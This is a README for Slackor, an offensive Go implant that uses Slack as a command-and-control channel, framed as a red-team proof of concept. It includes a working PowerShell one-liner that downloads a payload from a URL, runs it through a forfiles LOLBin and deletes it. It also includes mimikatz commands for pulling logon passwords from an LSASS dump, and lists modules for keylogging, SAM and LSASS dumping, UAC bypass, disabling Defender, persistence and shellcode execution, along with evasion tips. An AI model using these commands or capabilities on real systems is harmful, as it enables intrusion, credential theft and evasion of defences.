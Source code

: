 # Slackor \#
A Golang implant that uses Slack as a command and control channel.

This project was inspired by [Gcat](https://github.com/byt3bl33d3r/gcat) and [Twittor](https://github.com/PaulSec/twittor). 


![Slackor Screenshot](https://www.n00py.io/wp-content/uploads/2018/10/screenshot.png)
![Wireshark Screenshot](https://www.n00py.io/wp-content/uploads/2018/09/slackor_wireshark-2-1024x349.png)
This tool is released as a proof of concept.  Be sure to read and understand the [Slack App Developer Policy](https://api.slack.com/developer-policy) before creating any Slack apps.  

Setup 
=====

**Note: The server is written in Python 3**

For this to work you need:
- A Slack Workspace
- [Register an app](https://api.slack.com/apps) with the following permissions:
    - **channels:read** 
    - **channels:history** 	
    - **channels:write** 	
    - **files:write:user** 
    - **files:read** 

- Create a bot

This repo contains five files:
- ```install.sh``` Installs dependancies
- ```setup.py``` The script to create the slack channels, database, and implant
- ```server.py``` The Slackor server, designed to be ran on Linux
- ```template.go``` Template for the generated implant
- ```requirements.txt``` Python dependencies (installed automatically)

To get started:

 - Run ```install.sh```
 - Run ```setup.py```
    - Supply the *OAuth Access Token* and *Bot User OAuth Access Token* from your app

After running the script successfully, a file ```agent.exe``` will be created.  It will be a 64bit Go binary packed with UPX.

After starting server.py on a Linux host, execute ```agent.exe``` on your target Windows host.

Run the "stager" module to generate a one-liner and other droppers.
 ```
 powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
 ```
 This will execute InvokeWebRequest(PS v.3+) to download the payload, execute it using a [LOLBin](https://lolbas-project.github.io/lolbas/Binaries/Forfiles/), and then delete itself once killed.  This is a working example but the command can tweaked to use another download method or execution method.   

Usage 
=====
Type "help" or press [TAB] to see a list of available commands.  type "help [COMMAND]" to see a description of that command.

```(Slackor)```

- **Help** - Displays help menu
- **interact** - Interact with an agent
- **list** - List all registered agents
- **remove** - kill and remove an agent
- **revive** - Sends a signal to all agents to re-register with the server
- **stager** - Generates a one-liner to download an execute the implant
- **quit** - Quit the program
- **wipefiles** - Deletes all uploaded files out of Slack

Once an agent checks in, you can interact with it.
Use "interact [AGENT] to enter into an agent prompt.  Type "help" or press [TAB] to see a list of available commands.

```(Slackor:AGENT)```

- **back** - Return to the main menu
- **beacon** - change the amount of time between each check-in by an agent (default is 5 seconds)
- **bypassuac** - Attempts to spawn a high integrity agent
- **cleanup** - Removes persistence artifacts
- **clipboard** - Retreives the contents of the clipboard
- **defanger** - Attempts to de-fang Windows Defender
- **download** - Download a file from the agent to the Slackor server
- **duplicate** - Causes the agent to spawn another invocation of itself
- **getsystem** - Spawns an agent as NTAUTHORITY/SYSTEM
- **help** - Displays help menu
- **keyscan** - Starts a keylogger on the agent
- **kill** - Kill the agent 
- **minidump** - Dumps memory from lsass.exe and downloads it  
- **persist** - Creates persistence by implanting a binary in an ADS
- **samdump** - Attempts to dump the SAM file for offline hash extraction
- **screenshot** - Takes a screenshot of the desktop and retrieves it
- **shellcode** - Executes x64 raw shellcode
- **sleep** - Cause the agent to sleep once (enter time in seconds)
- **sysinfo** - Displays the current user, OS version, system architecture, and number of CPU cores
- **upload** - Upload a file to the agent from the Slackor server
- **wget** - Pull down arbitrary files over HTTP/HTTPS 


#### OPSEC Considerations

Command output and downloaded files are AES encrypted in addition to TLS transport encryption.
 
Modules will warn you before performing tasks that write to disk.  
When executing shell commands, take note that cmd.exe will be executed.  This may be monitored on the host.
Here are several OPSEC safe commands that will NOT execute cmd.exe:

- **cat** - prints file content
- **cd** - change directory
- **hostname** - Displays the name of the host
- **ifconfig** - Displays interface information
- **ls** - list directory contents
- **mkdir** - Creates a directory
- **pwd** - prints the current working directory
- **rm** - removes a file
- **rmdir** - removes a directory
- **whoami / getuid** - prints the current user

Credits
=====
- https://github.com/EgeBalci -  Functions adapted from [HERCULES](https://github.com/EgeBalci/HERCULES) and [EGESPLOIT](https://github.com/EgeBalci/EGESPLOIT)
- https://github.com/SaturnsVoid - Keylogger adapted from [GoBot2](https://github.com/SaturnsVoid/GoBot2)
- https://github.com/vyrus001 - x64 shellcode execution [shellGo](https://github.com/vyrus001/shellGo)
- Crypto functions adopted from https://www.golang123.com/topic/1686 
- Persistence idea from [Enigma0x3](https://enigma0x3.net/2015/03/05/using-alternate-data-streams-to-persist-on-a-compromised-machine/)
- Minidump adoped from [Merlin](https://github.com/Ne0nd0g/merlin), credit to [C-Sto](https://github.com/C-Sto)
- Screenshot code from [kbinani](https://github.com/kbinani/screenshot)
- Clipboard code from [atotto](https://github.com/atotto/clipboard)
- Stager generator from [hlldz](https://github.com/hlldz/SpookFlare)
- UAC bypass by [winscripting.blog](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)
- Lulzbin find by [@vector_sec](https://twitter.com/vector_sec/status/896049052642533376]) 
- Countless threads on StackOverflow
- Thanks to [impacket](https://github.com/SecureAuthCorp/impacket) for dumping hashes from SAM/SYS/SECURITY reg hives. 
- LSASS dump credential extraction made possbile using [pypykatz](https://github.com/skelsec/pypykatz) by skelsec

Future goals 
=====
- DOSfuscation 
- Reflectively load DLL/PE - https://github.com/vyrus001/go-mimikatz
- Execute C# assemblies in memory - https://github.com/lesnuages/go-execute-assembly
- Source code obfuscation https://github.com/unixpickle/gobfuscate

FAQ:
=====
**Is this safe to use for red teams/pentesting?** 

Yes, given some conditions.  While the data is encrypted in transit, the agent contains the key for decryption.
Anyone who acquires a copy of the agent could reverse engineer it and extract the API keys and the AES secret key.
Anyone who compromises or otherwise gains access to the workspace would be able to retrieve all data within it. 
For this reason, it is not recommended to re-use infrastructure against multiple organizations.    

**What about Mimikatz?**

The implant does not have in-memory password dumping functionality.
If you need logonPasswords, you can try the following:
```
(Slackor: AGENT)minidump
```
THis will automically extract passwords with Pypykatz.  Alternatively, you can use Mimikatz on Windows.
```
>mimikatz.exe
mimikatz # sekurlsa::Minidump lsassdump.dmp
mimikatz # sekurlsa::logonPasswords
```
**Is it cross-platform?** 

Not yet. It has not been fully tested on a variety of systems.  The server was designed to run on Kali Linux and the agent on Windows 10.  

**How well does it scale?** 

Scalability is limited by the Slack API.  If you have multiple agents, consider increasing the beacon interval of beacons not in use.  

**Is it vulnerable to standard beacon analysis?** 

Currently each beacon has 20% jitter built in, and beacon times can be customized.  Agent check-in request and response packets will be about the same size each time as long as no new commands are recieved.

**Why did you do [x] when a better way to do it is [y]?**

I tried my best.  PRs are encouraged :)

**It gets caught by AV!**

The built-in HTA stager is created by [SpookFlare](https://github.com/hlldz/SpookFlare) which is based on [Demiguise](https://github.com/nccgroup/demiguise).  If you want your droppers to not get snagged you probably want to go custom.  The built in droppers are just there to get you started. 
